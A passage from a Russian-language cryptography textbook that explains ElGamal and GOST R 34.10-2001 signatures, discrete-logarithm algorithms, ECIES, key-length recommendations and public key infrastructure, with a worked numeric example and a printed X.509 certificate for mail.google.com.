По-прежнему имеются два пользователя $A$ и $B$ и незащищённый канал связи между ними. Пользователь $A$  хочет подписать свое открытое сообщение $m$  для того, чтобы пользователь $B$ мог убедиться, что именно $A$ подписал сообщение.

Пусть $A$ имеет закрытый ключ $\SK = (p, g, x)$, открытый ключ $\PK = (p, g, y)$ (полученные так же, как и в системе шифрования Эль-Гамаля) и хочет подписать открытое сообщение. Обозначим подпись $S(m)$.

Для создания подписи $S(m)$ пользователь $A$ выполняет следующие операции:
\begin{itemize}
    \item вычисляет значение криптографической хэш-функции  $h(m) \in [0,p-2]$ от своего открытого сообщения $m$;
    \item выбирает случайное число $r, ~ \gcd(r, p-1)=1$;
    \item используя закрытый ключ, вычисляет
        \[ \begin{array}{l}
            a = g^r \mod p, \\
            b = \frac{h(m) - xa}{r} \mod (p-1); \\
        \end{array} \]
    \item создаёт подпись в виде двух чисел
        \[ S(m) = (a, b) \]
        и посылает сообщение с подписью $(m, S(m))$.
\end{itemize}

Получив сообщение, $B$ осуществляет проверку подписи, выполняя следующие операции:
\begin{itemize}
    \item по известному сообщению $m$ вычисляет значение хэш-функции $h(m)$;
    \item вычисляет
        \[ \begin{array}{l}
            f_1 = g^{h(m)} \mod p, \\
            f_2 = y^a a^b \mod p; \\
        \end{array} \]
    \item сравнивает значения $f_1$ и $f_2$, если
        \[ f_1 = f_2, \]
        то подпись подлинная, в противном случае -- фальсифицированная (или случайно испорченная).
\end{itemize}

Покажем, что проверка подписи корректна. По малой теореме Ферма получаем
\[ \begin{array}{ll}
    f_1 & = g^{h(m)} \mod p = \\
    & \\
    & = g^{h(m) \mod (p-1)} \mod p; \\
\end{array} \] \[ \begin{array}{ll}
    f_2 & = y^a a^b \mod p = \\
    & = \underbrace{\left( g^x \right)^a}_{y^a} \cdot
        \underbrace{\left( g^r \mod p \right)^{\frac{h(m) - xa}{r} \mod (p-1)}}_{a^b} \mod p = \\
    & \\
    & = g^{xa \mod (p-1)} ~\cdot~ g^{h(m) - xa \mod (p-1)} \mod p = \\
    & = g^{h(m) \mod (p-1)} \mod p = \\
    & = f_1.
\end{array} \]

\example Создание и валидация электронной подписи в криптосистеме Эль-Гамаля.

\begin{enumerate}
    \item Генерирование параметров.
        \begin{enumerate}
            \item Выберем $p=41$.
            \item Выберем генератор $g=6$ в группе $\Z_{41}^*$.
            \item Выберем случайное $x = 19 \in [1, p-1]$.%, ~ \gcd(x, p-1) = 1$.
            \item Вычислим
                \[ \begin{array}{ll}
                    y & = g^x \mod p = \\
                    & = 6^{19} \mod 41 = \\
                    & = 6^{1 + 2 + 4 \cdot 0 + 8 \cdot 0 + 16} \mod 41 = \\
                    & = 6 \cdot (-5) \cdot (-16)^0 \cdot 10^0 \cdot 18 \mod 41 = \\
                    & = -7 \mod 41. \\
                \end{array} \]
            \item Открытый и закрытый ключи:
                \[ \PK = (p:41, g:6, y:-7), ~ \SK = (p:41, g:6, x:19). \]
        \end{enumerate}
    \item Подписание.
        \begin{enumerate}
            \item От сообщения $m$ вычисляется хэш $h = H(m)$. Пусть хэш $h  = 3 \in [0, p-2]$.
            \item Выберем случайное $r = 9 \in [1, p-2]$: \\
                $\gcd(r=9, p-1 = 40) = 1$.
            \item Вычислим
                \[ \begin{array}{ll}
                    a & = g^r \mod p = \\
                      & = 6^9 \mod 41 = 19 \mod 41, \\
                    b & = \frac{h - xa}{r} \mod (p-1) = \\
                      & = (3 - 19 \cdot 19) \cdot 9^{-1} \mod 40 = \\
                      & = 2 \cdot 9 \mod 40 = 18 \mod 40. \\
                \end{array} \]
            \item Подпись
                \[ s = (a:19, b:18). \]
        \end{enumerate}
    \item Проверка подписи.
        \begin{enumerate}
            \item Для полученного сообщения находится хэш $h = H(m) = 3$. Пусть полученная подпись к нему имеет вид
                \[ s = (a:19, b:18). \]
            \item Вычислим
                \[ \begin{array}{ll}
                    f_1 & = g^h \mod p = \\
                        & = 6^3 \mod 41 = 11 \mod 41, \\
                    f_2 & = y^a a^b \mod p = \\
                        & = (-7)^{19} \cdot 19^{18} \mod 41 = 11 \mod 41. \\
                \end{array} \]
            \item Проверим равенство $f_1$ и $f_2$. Подпись верна, так как
                \[ f_1 = f_2 = 11. \]
        \end{enumerate}
\end{enumerate}

\exampleend
\index{электронная подпись!Эль-Гамаля|)}

\subsection{Криптостойкость}

Пусть дано уравнение $y=g^{x} \mod p$, требуется определить $x$ в интервале $0 < x < p-1$. Задача называется \textbf{дискретным логарифмированием}\index{задача!дискретного логарифмирования}.

Рассмотрим возможные способы нахождения неизвестного числа $x$. Начнем с перебора различных значений $x$ из интервала $0<x<p-1$ и проверки равенства $y=g^{x} \mod p$. Число попыток в среднем равно $\frac{p}{2}$, при $p=2^{1024}$ это число равно $2^{1023}$, что на практике не осуществимо.

Другой подход предложен советским математиком Гельфондом\index{алгоритм!Гельфонда} безотносительно к криптографии. Он состоит в следующем.
Вычислим $S=\lceil\sqrt{p-1}\rceil $, где скобки означают ближайшее (сверху) целое от числа $\sqrt{p-1} $.

Представим искомое число $x$   в следующем виде

\begin{equation}
    x=x_{1} S+x_{2},
    \label{S}
\end{equation}

где $x_{1}$ и $x_{2}$ -- целые неотрицательные числа,
    \[ x_{1} \le S-1, ~ x_{2} \le S-1. \]
Такое представление является однозначным.

Вычислим и занесем в таблицу следующие $S$  чисел:
    \[ g^{0} \mod p, ~~ g^{1} \mod p, ~~ g^{2} \mod p, ~~ \dots, ~~ g^{S-1} \mod p. \]
Вычислим $g^{-S} \mod p$ и также занесем в таблицу.

\begin{center} \begin{tabular}{|l|c|c|c|c|c|c|}
    \hline
    $\lambda $ & 0 & 1 & 2 & \dots & $S-1$ & $-S$ \\
    \hline
    $g^{\lambda} \mod p$ & $g^{0}$ & $g^{1}$ & $g^{2}$ & \dots & $g^{S-1}$ & $g^{-S}$ \\
    \hline
\end{tabular} \end{center}

Для решения уравнения~\ref{S} используем перебор значений $x_{1}$.
\begin{enumerate}
    \item Предположим, что $x_{1} = 0$. Тогда $x = x_{2}$. Если число $y = g^{x_{2}} \mod p$ содержится в таблице, то находим его и выдаём результат: $x=x_{2} $. Задача решена. В противном случае переходим к пункту 2.
    \item Предположим, что $x_{1} =1$. Тогда $x=S+x_{2} $ и $y=g^{S+x_{2}} \mod p$. Вычисляем $yg^{-S} \mod p=g^{x_{2}} \mod p$. Задача сведена к предыдущей: если $g^{x_{2} } \mod p$ содержится в таблице, то в таблице находим число $x_{2} $ и выдаём результат $x$: $x=S+x_{2} $.
    \item Предположим, что $x_{1} =2$. Тогда $x=2S+x_{2} $ и $y=g^{2S+x_{2} } \mod p$. Если число $yg^{-2S} \mod p=g^{x_{2} } \mod p$ содержится в таблице, то находим число $x_{2}$ и выдаём результат: $x = 2S + x_{2}$.
     \item Пробегая все возможные значения, доберемся, в худшем случае, до $x_{1} =S-1$. Тогда $x=(S-1)S+x_{2} $ и $y = g^{(S-1)S+x_{2} } \mod p$. Если число $yg^{-(S-1)S} \mod p=g^{x_{2}} \mod p$ содержится в таблице, то находим его и выдаём результат: $x=(S-1)S+x_{2}$.
\end{enumerate}

Легко проверить, что с помощью построенной таблицы мы проверили все возможные значения $x$. Максимальное число умножений равно $2S \approx 2\sqrt{p-1} =2\times 2^{512} $, что для практики очень велико. Тем самым проблему достаточной криптостойкости этой системы можно было бы считать решенной. Однако, это не верно, так как числа $p-1$ являются составными. Если  $p-1$ можно разложить на маленькие множители, то криптоаналитик может применить процедуру, подобную процедуре Гельфонда, по взаимно простым делителям  $p-1$  и найти секрет. Пусть  $p-1=st$. Тогда элемент $g^s$ образует подгруппу порядка $t$ и наоборот. Теперь, решая уравнение $y^s=(g^s)^a\mod p$, находим вычет $x=a\mod t$. Поступая аналогично, находим $x=b\mod s$ и по Китайской теореме об остатках находим $x$.

Несколько позже подобный метод ускоренного решения уравнения~\ref{S} был предложен Шенксом (Daniel Shanks, \cite{Shanks:1971})\index{алгоритм!Шенкса}.

Пусть $k = \lceil \log_2 p \rceil$ -- битовая длина числа $p$. Алгоритм Гельфонда имеет экспоненциальную сложность (число двоичных операций)
    \[ O(\sqrt{p}) = O(e^{\frac{1}{2} \frac{1}{\log_2 e} k}). \]

Наилучшие из известных алгоритмов решения задачи дискретного логарифмирования имеют экспоненциальную сложность порядка
    \[ O(e^{\sqrt{k}}). \]

\index{криптосистема!Эль-Гамаля|)}


\section{Эллиптические кривые}\label{section-elliptic-curve-cryptosystems}
\selectlanguage{russian}

Существуют аналоги криптосистемы Эль-Гамаля, в которых вместо проблемы дискретного логарифма в мультипликативных полях используется проблема дискретного логарифма в группах точек эллиптических кривых над конечными полями (обычно $GF(p)$ либо $GF(2^n)$). Математическое описание данных полей приведено в разделе~\ref{section-math-ec-groups}. Нас же интересует следующий факт: для группы точек эллиптической кривой над конечным полем $\group{E}$ существует быстро выполнимая операция~-- умножение целого числа $x$ на точку $A$ (суммирование точки самой с собой целое число раз):
\[ \begin{array}{l}
	x \in \group{Z}, \\
	A, B \in \group{E}, \\
	B = x \times A. \\
\end{array} \]

И получение исходной точки $A$ при известных $B$ и $x$ (<<деление>> точки на целое число), и получение целого числа $x$ при известных $A$ и $B$ являются сложными задачами. На этом и основаны алгоритмы шифрования и электронной подписи с использованием эллиптических кривых над конечными полями.

\subsection{ECIES}
\selectlanguage{russian}

Схема ECIES (\langen{Elliptic Curve Integrated Encryption Scheme}) является частью сразу нескольких стандартов, в том числе ANSI X9.63, IEEE 1363a, ISO 18033-2 и SECG SEC 1. Эти стандарты по-разному описывают выбор параметров схемы~\cite{Martinez:Encinas:Avila:2010}:

\begin{itemize}
	\item ENC (\langen{Encryption}) -- блочный режим шифрования (в том числе простое гаммирование, 3DES\index{шифр!3DES}, AES\index{шифр!AES}, MISTY1\index{шифр!MISTY1}, CAST-128\index{шифр!CAST-128}, Camelia\index{шифр!Camelia}, SEED\index{шифр!SEED});
	\item KA (\langen{Key Agreement})~-- метод для генерации общего секрета двумя сторонами (оригинальный метод, описанный в протоколе Диффи~--~Хеллмана\index{протокол!Диффи~--~Хеллмана}~\cite{Diffie:Hellman:1976}, либо его модификации~\cite{Miller:1986});
	\item KDF (\langen{Key Derivation Function}) -- метод получения ключей из ключевой и дополнительной информации;
	\item HASH~--- криптографическая хэш-функция (SHA-1\index{хэш-функция!SHA-1}, SHA-2\index{хэш-функция!SHA-2}, RIPEMD\index{хэш-функция!RIPEMD}, SHA-1\index{хэш-функция!WHIRLPOOL});
	\item MAC (\langen{Message Authentication Code})~--- функция вычисления имитовставки\index{имитовставка} (DEA, ANSI X9.71, MAC1, HMAC-SHA-1, HMAC-SHA-2, HMAC-RIPEMD, CMAC-AES).
\end{itemize}

К параметрам относится выбор группы точек над эллиптической кривой $\group{E}$, а также некоторой большой циклической подгруппы $\group{G}$ в группе $\group{E}$, задаваемой точкой-генератором $G$. Мощность циклической группы обозначается $n$.
\[n = \left\| \group{G} \right\|.\]

Предположим, что в нашем сценарии Алиса хочет послать сообщение Бобу. У Алисы есть открытый ключ Боба $P_B$, а у Боба ~--- соответствующий ему закрытый ключ $p_B$. Для отправки сообщения Алиса также сгенерирует временную (\langen{ephemeral}) пару из открытого ($P_A$) и закрытого ($p_A$) ключей. Закрытыми ключами являются некоторые натуральные числа, меньшие n, а открытыми ключами является произведение закрытого на точку-генератор $G$:

\[ \begin{array}{ll}
	p_A \in \Z, & p_B \in \Z, \\
	1 < p_A < n, & 1 < p_B < n, \\
	P_A = p_A \times G, & P_B = p_B \times G, \\
	P_A \in \group{G} \in \group{E}, & P_B \in \group{G} \in \group{E}.\\
\end{array} \]

\begin{enumerate}
	\item С помощью метода генерации общего секрета KA, Алиса вычисляет общий секрет $s$. В случае использования оригинального протокола Диффи~--~Хеллмана\index{протокол!Диффи~--~Хеллмана} общим секретом будет является результат умножения закрытого ключа Алисы на открытый ключ Боба $s = p_a \times P_B$.
	\item Используя полученный общий секрет $s$ и метод получения ключей из ключевой и дополнительной информации KDF Алиса получает ключ шифрования $k_{ENC}$, а также ключ для вычисления имитовставки $k_{MAC}$.
	\item С помощью симметричного алгоритма шифрования ENC Алиса шифрует открытое сообщение $m$ ключом $k_{ENC}$ и получает шифротекст $c$.
	\item Взяв ключ $k_{MAC}$, зашифрованное сообщение $c$ и другие заранее обговоренные сторонами параметры, Алиса вычисляет тэг сообщения ($tag$) с помощью функции MAC.
	\item Алиса отсылает Бобу $\{P_A, tag, c\}$.
\end{enumerate}

В процессе дешифровки Боб последовательно получает общий секрет $s = p_b \times P_A$, ключи шифрования $k_{ENC}$ и имитовставки $k_{MAC}$, вычисляет тэг сообщения и сверяет его с полученным. В случае совпадения вычисленного и полученного тэгов Боб расшифровывает исходное сообщение $m$ из шифротекста $c$ с помощью ключа шифрования $k_{ENC}$.


\section[Российский стандарт ЭП ГОСТ Р 34.10-2001]{Российский стандарт ЭП \protect\\ ГОСТ Р 34.10-2001}
\selectlanguage{russian}

Российский стандарт цифровой подписи основан на криптосистеме типа Эль-Гамаля\index{криптосистема!Эль-Гамаля}, в которой в качестве группы используется группа точек эллиптической кривой над конечным полем (см. Приложение). Группа должна быть большой с количеством элементов порядка $2^{255}$.

Пусть имеются две стороны $A$ и $B$ и между ними канал связи. Сторона $A$ желает передать сообщение $M$ стороне $B$ и подписать его. Сторона $B$ должна проверить правильность подписи, то есть аутентифицировать сторону $A$.

$A$ формирует открытый ключ следующим образом.

\begin{enumerate}
    \item Выбирает простое число $p > 2^{255}$.
    \item Записывает уравнение эллиптической кривой
        \[ E: ~ y^2 = x^3 + a x + b \mod p, \]
        которое определяет группу точек эллиптической кривой $\E(\Z_p)$.
        Выбирает группу, задавая либо случайные числа $0 < a, b < p-1$, либо инвариант $J(E)$:
        \[ J(E) = 1728 \frac{4 a^3}{4 a^3 + 27 b^2} \mod p. \]
        Если кривая задается инвариантом $J(E) \in \Z_p$, то он выбирается случайно в интервале $0 < J(E) < 1728$. Для нахождения $a,b$ вычисляется
        \[ K = \frac{J(E)}{1728 - J(E)}, \]
        \[ \begin{array}{l}
            a = 3 K \mod p, \\
            b = 2 K \mod p. \\
        \end{array} \]
    \item Пусть $m$ -- порядок группы точек эллиптической кривой $\E(\Z_p)$. ~Пользователь $A$ подбирает число $n$ и простое число $q$ такие, что
        \[ m = n q, ~ 2^{254} < q < 2^{256}, ~ n \geq 1, \]
        где $q$ -- делитель порядка группы.

        В циклической подгруппе порядка $q$ выбирается точка
        \[ P \in \E(\Z_p): ~ q P \equiv 0. \]
    \item Случайно выбирает число $d$ и вычисляет точку $Q = d P$.
    \item Формирует секретный и открытый ключи:
        \[ \SK = (d), ~ \PK = (p, E, q, P, Q). \]
\end{enumerate}

Теперь сторона $A$ создает свою цифровую подпись $S(M)$ сообщения $M$, выполняя следующие действия.
\begin{enumerate}
    \item Вычисляет число $\alpha = h(M)$, где $h$ -- криптографическая хэш-функция, определенная стандартом ГОСТ Р 34.11-94. В российском стандарте длина $h(M)$ равна 256 бит.
    \item Вычисляет  $e = \alpha \mod q$.
    \item Случайно выбирает число $k$ и вычисляет точку
        \[ C = k P = (x_c, y_c). \]
    \item Вычисляет  $r = x_c \mod q$.
	Если $r = 0$, то выбирает другое $k$.
    \item Вычисляет  $s = k e + r d \mod q$.
	Если $s = 0$, то выбирает другое $k$.
    \item Формирует подпись
        \[ S(M) = (r, s). \]
\end{enumerate}
Сторона $A$ передает стороне $B$ сообщение с подписью
    \[ (M, ~ S(M)). \]

Сторона $B$ проверяет подпись $(r,s)$, выполняя процедуру проверки подписи.
\begin{enumerate}
    \item Вычисляет  $\alpha = h(M)$ и $e = \alpha \mod q$.
    \item Вычисляет  $e^{-1} \mod q$.
    \item Проверяет условия $r < q, ~ r < s$. Если эти условия не выполняются, то подпись отвергается. Если условия выполняются, то процедура продолжается.
    \item Вычисляет числа
        \[ \begin{array}{l}
            a = s e^{-1} \mod q, \\
            b = -r e^{-1} \mod q. \\
        \end{array} \]
    \item Вычисляет точку
        \[ \tilde{C} = a P + b Q = (\tilde{x}_c, \tilde{y}_c). \]
        Если подпись верна, должны получить исходную точку $C$.
    \item Проверяет условие $\tilde{x}_{c} \mod q = r$. Если условие выполняется, то подпись принимается, в противном случае --- отвергается.
\end{enumerate}

Рассмотрим вычислительную сложность вскрытия подписи. Предположим, что криптоаналитик ставит своей задачей определение секретного ключа $d$. Как известно,  эта  задача является трудной. Для подтверждения этого можно привести следующий факт. Был поставлен следующий эксперимент: было выбрано число $p = 2^{97},$ и 1200 персональных компьютеров с тактовой частотой процессоров 200 МГц в 16 странах мира работали, чтобы решить эту задачу. Задача была решена за 53 дня круглосуточной работы. Если взять $p = 2^{256}$, то на решение такой задачи при наличии одного компьютера с частотой процессора 2 ГГц потребуется $10^{22}$ лет.



\section{Длины ключей}
\selectlanguage{russian}

В таблице~\ref{tab:recommended-key-lengths} приведены битовые длины ключей для криптосистем.
%Традиционные рекомендации основаны на аппроксимации существующих алгоритмов для взлома на 10-30 лет вперед.

\begin{table}[!ht]
    \centering
    \caption{Минимальные длины ключей в битах по стандартам России и США\label{tab:recommended-key-lengths}}
    \resizebox{\textwidth}{!}{ \begin{tabular}{|l|c|c|c|c|}
        \hline
        & \multirow{2}{*}{\parbox{1.5cm}{\medskip \centering Блочные шифры, $K$}} & \multicolumn{3}{|c|}{Схема ЭП} \\
        \cline{3-5}
        & & \parbox{1.5cm}{\centering RSA\index{криптосистема!RSA}, $n$} & \parbox{2.4cm}{\centering Эллипт. кривые, порядок точки} & \parbox{3.5cm}{\centering Эль-Гамаль\index{криптосистема!Эль-Гамаля} $\operatorname{mod} p$: модуль / порядок (под)группы} \\
        \hline \hline
        \multicolumn{5}{|c|}{Взломано} \\
        \hline
        Биты & 56 & 768 & 109 & 503  \\
        Конкурс & \textsc{DesChal} & RSA-768 & ECC2K-108 &  \\
        Год & 1997 & 2009 & 2000 &  \\
        \hline \hline
        \multicolumn{5}{|c|}{Стандарт России} \\
        \hline
        Биты & 256 &  & 255 & \\
        ГОСТ & 28147"---89 &~--- & 34.10-2001 &~--- \\
        Год & 1989 & & 2001 & \\
%       \hline
%       \multicolumn{2}{|l|}{\parbox{4cm}{Россия: нелицензируемая деятельность}} & \multicolumn{4}{c|}{40} \\
        \hline \hline
        \multicolumn{5}{|c|}{Стандарт США} \\
        \hline
        Биты & 128-256 & 1024-3072 & 151-480 & 1024-3072/160-256 \\
        FIPS \No & 197 & draft 186-3 & draft 186-3 & draft 186-3 \\
        Год & 2001 & 2006 & 2006 & 2006 \\
%       \hline
%       \multicolumn{2}{|l|}{\parbox{4cm}{США: экспортные ограничения до 2001 г.}} & 56 & 512 & 112 & 512/112 \\
%       \hline \hline
%       \multicolumn{2}{|l|}{Традиционные} & 80 & 1024 & 160 & 1024/160 \\
%       \cline{3-6}
%       \multicolumn{2}{|l|}{рекомендации} & 112 & 2048 & 224 & 2048/224 \\
%       \hline
%       \multicolumn{2}{|l|}{\parbox{4cm}{Рекомендация Lenstra, Verheul для 2010 г.}} & 78 & 1369 & 146-160 & 1369/138 \\
        \hline
    \end{tabular} }
\end{table}
%}\end{center}


\subsection*{Скорость вычисления ЭП}

Сравним производительность схем ЭП, чтобы продемонстрировать преимущества ЭП вида Эль-Гамаля\index{криптосистема!Эль-Гамаля} перед RSA\index{криптосистема!RSA} для больших ключей. В приложении показано, что в модульной арифметике по модулю числа $n$ с битовой длиной $k \simeq \log_2 n$ операции имеют битовую сложность:
\[ \begin{array}{lcl}
    a^b \mod n & - & O(k^3), \\
    ab \mod n, ~ a^{-1} \mod n & - & O(k^2), \\
    a+b \mod n & - & O(k). \\
\end{array} \]

Так как все описанные схемы ЭП используют возведение в степень по модулю, то битовая сложность~-- $O(k^3)$. Оценки количества целочисленных $t$-разрядных умножений при вычислении ЭП имеют вид:
\begin{enumerate}
    \item RSA\index{электронная подпись!RSA}:
        \[ (2 \log_2 n) \cdot \left( \frac{\log_2 n}{t} \right)^2; \]
    \item DSA\index{электронная подпись!DSA} (\langen{Digital Signature Algorithm}, стандарт США~\cite{FIPS-PUB-186-4})~-- электронная подпись, вычисляемая по принципу Эль-Гамаля\index{криптосистема!Эль-Гамаля} по модулю $p$ и с порядком циклической подгруппы $q$:
        \[ (2 \log_2 q) \cdot \left( \frac{\log_2 p}{t} \right)^2; \]
    \item ГОСТ Р 34.10-2001\index{электронная подпись!ГОСТ Р 34.10-2001} (стандарт России~\cite{GOST-2001}) и ECDSA\index{электронная подпись!ECDSA} (\langen{Elliptic Curve Digital Signature Algorithm}, стандарт США~\cite{FIPS-PUB-186-4}), вычисляемые по принципу Эль-Гамаля\index{криптосистема!Эль-Гамаля} в группе точек эллиптической кривой по модулю $p$:
        \[ (2 \log_2 p) \cdot 4 \cdot \left( \frac{\log_2 p}{t} \right)^2. \]
\end{enumerate}

В таблице~\ref{tab:signature-rate} приведены оценки скорости вычисления ЭП (оценки числа умножений 64-битовых слов).

\begin{table}[!ht]
    \centering
    \caption{Оценочное число 64-битовых умножений для вычисления ЭП\label{tab:signature-rate}}
    \begin{tabular}{|c|l|c|}
        \hline
        ЭП & Оценочное число 64-битовых умножений \\
        \hline \hline
        RSA\index{электронная подпись!RSA} 1024 & $(2 \cdot 1024) \cdot \left( \frac{1024}{64} \right)^2 \approx$ 500 000 \\
        RSA\index{электронная подпись!RSA} 2048 & 4 000 000 \\
        RSA\index{электронная подпись!RSA} 3072 & 14 000 000 \\
        RSA\index{электронная подпись!RSA} 4096 & 34 000 000 \\
        \hline \hline
        DSA\index{электронная подпись!DSA} 1024/160 & $(2 \cdot 160) \cdot \left( \frac{1024}{64} \right)^2 \approx$ 82 000 \\
        DSA\index{электронная подпись!DSA} 3072/256 & 1 200 000 \\
        \hline \hline
        ECDSA\index{электронная подпись!ECDSA} 160 & $(2 \cdot 160) \cdot 4 \cdot \left( \frac{160}{64} \right)^2 \approx$ 8 000 \\
        ECDSA\index{электронная подпись!ECDSA} 512 & 260 000 \\
        \hline \hline
        ГОСТ Р 34.10-2001\index{электронная подпись!ГОСТ Р 34.10-2001} & $(2 \cdot 256) \cdot 4 \cdot \left( \frac{256}{64} \right)^2 \approx$ 33 000 \\
        \hline
    \end{tabular}
\end{table}


\section{Инфраструктура открытых ключей}\label{chapter-public-key-infrastructure}

\subsection{Иерархия удостоверяющих центров}\label{section-CAs}
\selectlanguage{russian}

Проблему аутентификации и распределения сеансовых симметричных ключей шифрования в Интернете, а также в больших локальных и виртуальных сетях решают с помощью построения иерархии открытых ключей криптосистем с открытым ключом.

\begin{enumerate}
    \item Существует удостоверяющий центр (УЦ) верхнего уровня\index{удостоверяющий центр!верхнего уровня}, корневой УЦ\index{удостоверяющий центр!корневой} (root certificate authority, root CA), обладающий парой из закрытого и открытого ключей. Открытый ключ УЦ верхнего уровня распространяется среди всех пользователей, причем все пользователи \emph{доверяют УЦ}. Это означает, что:
        \begin{itemize}
            \item УЦ -- <<хороший>>, то есть обеспечивает надёжное хранение закрытого ключа, не пытается фальсифицировать и скомпрометировать свои ключи;
            \item имеющийся у пользователей открытый ключ УЦ действительно принадлежит УЦ.
        \end{itemize}
        В массовых информационных и интернет-системах открытые ключи многих корневых УЦ встроены в дистрибутивы и пакеты обновлений ПО. Доверие пользователей неявно проявляется в их уверенности в том, что открытые ключи корневых УЦ, включенные в ПО, не фальсифицированы и не скомпрометированы. \emph{Де-факто пользователи доверяют а) распространителям ПО и обновлений, б) корневому УЦ.}\index{доверие}

        Назначение УЦ верхнего уровня -- проверка принадлежности и подписание открытых ключей других удостоверяющих центров второго уровня, а также организаций и сервисов. УЦ подписывает своим закрытым ключом следующее сообщение:
        \begin{itemize}
            \item название и URI УЦ нижележащего уровня или организации/сервиса,
            \item значение сгенерированного открытого ключа и название алгоритма соответствующей криптосистемы с открытым ключом,
            \item время выдачи и срок действия открытого ключа.
        \end{itemize}

    \item УЦ второго уровня\index{удостоверяющий центр} (certificate authority, certification authority, CA) имеют свои пары открытых и закрытых ключей, сгенерированных и подписанных корневым УЦ. Причем перед подписанием корневой УЦ убеждается в <<надёжности>> УЦ второго уровня, производит юридические проверки. Корневой УЦ не имеет доступа к закрытым ключам УЦ второго уровня.

        Пользователи, имея в своей базе открытых ключей доверенные открытые ключи корневого УЦ, могут проверить ЭП открытых ключей УЦ 2-го уровня и убедиться, что предъявленный открытый ключ действительно принадлежит данному УЦ. Таким образом:
        \begin{itemize}
            \item Пользователи полностью доверяют корневому УЦ и его открытому ключу, который у них хранится. Пользователи верят, что корневой УЦ не подписывает небезопасные ключи и гарантирует, что подписанные им ключи действительно принадлежат УЦ 2-го уровня.
            \item Проверив ЭП открытого ключа УЦ 2-го уровня с помощью доверенного открытого ключа УЦ 1-го уровня, пользователь верит, что открытый ключ УЦ 2-го уровня действительно принадлежит данному УЦ и не был скомпрометирован.
        \end{itemize}

        Аутентификация в протоколе защищённого интернет-соединения SSL/TLS\index{протокол!SSL/TLS} достигается в результате проверки пользователями совпадения URI-адреса сервера из ЭП с фактическим адресом.

        УЦ второго уровня в свою очередь тоже подписывает открытые ключи УЦ третьего уровня, а также организаций. И так далее по уровням.

    \item В результате построена \emph{иерархия} подписанных открытых ключей.

    \item Открытый ключ с идентификационной информацией (название организации, URI-адрес веб-ресурса, дата выдачи, срок действия и др.) и подписью УЦ вышележащего уровня, заверяющей ключ и идентифицирующие реквизиты, называются \textbf{сертификатом открытого ключа},\index{сертификат открытого ключа} на который существует международный стандарт X.509\index{сертификат!X509}, последняя версия 3. В сертификате указывается его область применения: подписание других сертификатов, аутентификация для веба, аутентификация для электронной почты и т.~д.
\end{enumerate}

\begin{figure}[!ht]
	\centering
	\includegraphics[width=0.8\textwidth]{pic/X509-hierarchy}
	\caption{Иерархия сертификатов\label{fig:x509-hierarchy}}
\end{figure}

На рис.~\ref{fig:x509-hierarchy} приведены пример иерархии сертификатов и путь подписания сертификата X.509\index{сертификат!X509} интернет-сервиса Google Mail.

Система распределения, хранения и управления сертификатами открытых ключей называется \textbf{инфраструктурой открытых ключей}\index{инфраструктура открытых ключей} (public key infrastructure, PKI). PKI применяется для аутентификации в системах SSL/TLS\index{протокол!SSL/TLS}, IPsec\index{протокол!IPsec}, PGP и т.~д. Помимо процедур выдачи и распределения открытых ключей PKI также определяет процедуру отзыва скомпрометированных или устаревших сертификатов.


\subsection{Структура сертификата X.509}
\selectlanguage{russian}

Ниже приведён пример сертификата X.509\index{сертификат!X509} интернет-сервиса mail.google.com, использовавшийся для защищённого SSL-соединения в 2009 г. Сертификат напечатан командой \texttt{openssl x509 -in file.crt -noout -text}:

{\small \begin{verbatim}
Certificate:
Data:
  Version: 3 (0x2)
  Serial Number:
    6e:df:0d:94:99:fd:45:33:dd:12:97:fc:42:a9:3b:e1
  Signature Algorithm: sha1WithRSAEncryption
  Issuer: C=ZA, O=Thawte Consulting (Pty) Ltd.,
    CN=Thawte SGC CA
  Validity
    Not Before: Mar 25 16:49:29 2009 GMT
    Not After : Mar 25 16:49:29 2010 GMT
  Subject: C=US, ST=California, L=Mountain View, O=Google Inc,
    CN=mail.google.com
  Subject Public Key Info:
    Public Key Algorithm: rsaEncryption
    RSA Public Key: (1024 bit)
      Modulus (1024 bit):
        00:c5:d6:f8:92:fc:ca:f5:61:4b:06:41:49:e8:0a:
        2c:95:81:a2:18:ef:41:ec:35:bd:7a:58:12:5a:e7:
        6f:9e:a5:4d:dc:89:3a:bb:eb:02:9f:6b:73:61:6b:
        f0:ff:d8:68:79:1f:ba:7a:f9:c4:ae:bf:37:06:ba:
        3e:ea:ee:d2:74:35:b4:dd:cf:b1:57:c0:5f:35:1d:
        66:aa:87:fe:e0:de:07:2d:66:d7:73:af:fb:d3:6a:
        b7:8b:ef:09:0e:0c:c8:61:a9:03:ac:90:dd:98:b5:
        1c:9c:41:56:6c:01:7f:0b:ee:c3:bf:f3:91:05:1f:
        fb:a0:f5:cc:68:50:ad:2a:59
      Exponent: 65537 (0x10001)
  X509v3 extensions:
    X509v3 Extended Key Usage: TLS Web Server
      Authentication, TLS Web Client Authentication,
      Netscape Server Gated Crypto
    X509v3 CRL Distribution Points:
    URI:http://crl.thawte.com/ThawteSGCCA.crl
    Authority Information Access:
    OCSP - URI:http://ocsp.thawte.com
    CA Issuers - URI:http://www.thawte.com/repository/
        Thawte_SGC_CA.crt
    X509v3 Basic Constraints: critical
    CA:FALSE
Signature Algorithm: sha1WithRSAEncryption
  62:f1:f3:05:0e:bc:10:5e:49:7c:7a:ed:f8:7e:24:d2:f4:a9:
  86:bb:3b:83:7b:d1:9b:91:eb:ca:d9:8b:06:59:92:f6:bd:2b:
  49:b7:d6:d3:cb:2e:42:7a:99:d6:06:c7:b1:d4:63:52:52:7f:
  ac:39:e6:a8:b6:72:6d:e5:bf:70:21:2a:52:cb:a0:76:34:a5:
  e3:32:01:1b:d1:86:8e:78:eb:5e:3c:93:cf:03:07:22:76:78:
  6f:20:74:94:fe:aa:0e:d9:d5:3b:21:10:a7:65:71:f9:02:09:
  cd:ae:88:43:85:c8:82:58:70:30:ee:15:f3:3d:76:1e:2e:45:
  a6:bc
\end{verbatim}}

Как видно, сертификат действителен с 26.03.2009 до 25.03.2010, открытый ключ представляет собой ключ RSA\index{криптосистема!RSA} с длиной модуля $n =$ 1024 бит и экспонентой $e = 65537$ и принадлежит компании Google Inc. Открытый ключ предназначен для взаимной аутентификации веб-сервера mail.google.com и веб-клиента в протоколе SSL/TLS. Сертификат подписан ключом удостоверяющего центра Thawte SGC CA, подпись вычислена с помощью криптографического хэша SHA-1\index{хэш-функция!SHA-1} и алгоритма RSA\index{электронная подпись!RSA}. В свою очередь, сертификат с открытым ключом Thawte SGC CA для проверки значения ЭП данного сертификата расположен по адресу \url{http://www.thawte.com/repository/Thawte\_SGC\_CA.crt}.

